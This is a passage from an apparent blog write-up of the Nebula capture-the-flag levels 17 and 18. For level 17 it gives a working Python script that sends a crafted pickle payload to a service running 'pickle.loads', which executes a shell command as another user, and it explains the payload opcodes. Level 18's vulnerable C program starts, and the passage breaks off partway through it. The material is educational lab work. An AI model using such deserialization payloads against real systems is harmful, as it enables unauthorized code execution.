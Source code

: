 Right, so my plan is to get a shell as *flag17* and get the flag from there. Using pickle's opcodes I can construct a string that will run `getflag` from the `pickle.loads` call as user *flag17*. So before I started constructing this I copied the script and ran it as *level17* on a different port in order to debug and see what's going on. Once I was happy with my exploit code I changed the port to `10007` and ran it to get the flag.

{% highlight python %}
#!/bin/python
import socket

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.connect(('localhost', 10007))
print skt
data = skt.recv(1024)
print data
sent = skt.send("cos\nsystem\n(S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\ntR\n")
print sent
data = skt.recv(1024)
print data
skt.close()
{% endhighlight %}

I'll explain the pickle string a bit: 

* `cos\nsystem` resolves the classname and calls it
* `(` is the marker
* `S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\n` this is our command we want to run
* `tR\n` - `t` puts the string onto the stack and `R` pops this tuple and calls it, thus executing our lovingly crafted payload.

Once run it looks like it worked so let's be sure

{% highlight console %}
level17@nebula:/tmp/flag17$ cat ../f17pwned
You have successfully executed getflag on a target account
{% endhighlight %}

## Level 18 ##

> Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it. 

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");